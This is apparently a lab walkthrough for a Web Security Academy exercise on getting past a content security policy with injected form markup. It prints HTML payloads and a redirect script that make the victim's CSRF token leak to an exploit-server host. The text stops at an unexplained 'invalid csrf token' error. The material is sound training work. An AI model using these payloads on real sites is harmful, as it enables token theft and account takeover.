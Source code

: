 If we inspect the content-security-policy:
```
content-security-policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Okey, let'ts think out of the box, if we inspect the website we have a form that send data via POST to /my-account/change-email. What happends if we create another form? **we will have inside the input hidden with the csrf token** and we can send to a malicious server.

```
"></form><form class="login-form" name="malicious-form" action="https://exploit-0ab4006d038be35680f87a5501b5009a.exploit-server.net/exploit" method="GET">
```

Remember that you have the original `</form>` that will close this new form.

```
https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account?email=prueba"></form><form class="login-form" name="malicious-form" action="https://exploit-0ab4006d038be35680f87a5501b5009a.exploit-server.net/exploit" method="GET">
```

If we inject this code and inspect we see that in our new form we have the input hidden with the csrf token and the button.

We can add a new button that submit the new malicous form.
```
"></form><form class="login-form" name="malicious-form" action="https://exploit-0ab4006d038be35680f87a5501b5009a.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click me</button
```

Now if you go to access logs of exploit sever you don't see nothing, but if you click the button you are going to see in the url the csrf token and if you reload the access logs you see the token again.

Now we have to do that the user click the button, in exploit server you can put this:

```html
<script>
location = 'https://0aef00830312e3e5807f7b7b002a00ef.web-security-academy.net/my-account?email=prueba"></form><form class="login-form" name="malicious-form" action="https://exploit-0ab4006d038be35680f87a5501b5009a.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click me</button';
</script>
```

Remember that in the description of the lab tell us that we need to add the word Click to simulate the user click it.

Now if we open the access log in other windows, store de exploit server and view exploit and click the exploit and reload the access log we see our csrf token. To see the token of the victim we have to deliver exploit to victim, reload the access log and see another csrf token.

If we try to send the request to /my-account/change-email with this csrf token an another mail we should be able to change the email.

But not, we obtain **404** invalid csrf token, why?
